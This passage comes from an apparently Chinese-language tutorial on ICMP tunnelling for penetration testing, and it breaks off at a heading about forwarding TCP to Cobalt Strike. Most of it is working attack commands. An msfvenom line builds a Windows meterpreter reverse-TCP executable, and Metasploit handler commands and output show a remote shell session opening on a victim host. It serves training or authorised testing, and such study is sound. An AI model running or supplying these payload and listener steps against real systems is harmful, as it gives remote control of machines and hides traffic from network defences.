 ```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=9999 -f exe -o meterpreter.exe
# 这里的lhost和lport为icmp客户端监听ip和端口
```

启动 msf 监听，等待 meterpreter 执行上线

```
# 这里的lhost和lport为icmp客户端转发到的ip和端口

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:7777
[*] Sending stage (200774 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (192.168.1.10:7777 -> 192.168.1.10:44832) at 2024-01-15 02:26:28 -0500

meterpreter > getuid
Server username: ECHO0D-WIN\echo0d

```

![image-20240115153402449](./img/Tunnel/image-20240115153402449.png)

#### 转发 TCP 上线 cs
